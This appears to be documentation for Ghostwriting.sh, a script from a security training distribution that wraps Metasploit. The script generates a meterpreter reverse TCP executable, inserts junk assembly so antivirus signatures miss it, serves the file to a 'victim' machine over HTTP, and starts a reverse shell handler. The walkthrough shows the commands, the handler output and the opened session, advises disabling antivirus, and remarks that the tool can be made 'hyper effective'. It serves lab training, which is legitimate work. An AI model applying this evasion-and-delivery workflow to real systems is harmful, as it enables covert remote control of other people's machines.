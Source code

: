 
Ghostwriting.sh
===============

Description
-----------
Ghostwriting is a method of anti-virus bypass utilizing binary deconstruction, insertion of arbitrary assembly code, and reconstruction.
We will make use of built in metasploit tools to perform the actions listed above.  Ghostwriting.sh is a tool used to automate the process.

Install Location
----------------

`/opt/ghostwriting/`

Usage
-----

Ghostwriting.sh is quite easy to use.  Simply change directory to the install location,
run the script, and follow the prompts.

Let me show you an example.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155674&authkey=AFzauuwLy7HXj-M" width="320" height="179" frameborder="0" scrolling="no" allowfullscreen></iframe>

Example 1: Obfuscating an executable with Ghostwriting.sh
---------------------------------------------------------

Let's first launch the script

`~$` **`cd /opt/ghostwriting/`**

`/opt/ghostwriting$` **`sudo ./ghostwriting.sh`**

Ghostwriting will first download and install any missing gems it may need.  It will then create a
meterpreter reverse tcp binary ready to connect back to your machine's private IP address.
Next it will disassemble that executable, and insert junk code as a form of signature evasion.
Finally it will reassemble the binary with the junk code inside, and open a webserver so you can
transfer the file to your victim machine.

        ****************************************************
        Opening webserver on 192.168.27.171:8000 for file transfer
        Ctrl+C to continue after file transfer
        ****************************************************
        Serving HTTP on 0.0.0.0 port 8000 ...

On your victim machine, open a web browser, and navigate to the ip address of your ADHD machine on port 8000.
You should see two files.  Click to download "EveryVillainIsLemons.exe".

![Downloads in Chrome](Ghostwriting.sh_files/downloads.PNG)

Here is the moment of truth, depending on your AV this specific file may or may not be detected
and block upon download (or later upon execution).  If you need to, go ahead and disable your AV's
real-time protection.  This script is a demonstration tool more than anything.  It can however be
modified to be hyper effective.

Once you have the file downloaded, go ahead and head over to your terminal in ADHD and
press **`Ctrl + C`** to stop the web server.

Ghostwriting.sh will now ask you if you would like to start the payload handler, tell it yes (y).

        File Transfer Complete, probably...
        Would you like to start the handler now? [y/N]
        y
        Starting Handler
        LHOST => 192.168.27.171
        LPORT => 8080
        [*] Started reverse handler on 192.168.27.171:8080
        [*] Starting the payload handler...

It will then launch metasploit's reverse shell handler.

To create a session, back on your victim machine, simply run the executable file "EveryVillainIsLemons.exe"

The reverse handler on ADHD should receive the incoming connection and launch a session for you.

        [*] Sending state (769536 bytes) to 192.168.27.1
        [*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33

        meterpreter \>

There you go, happy pwning!


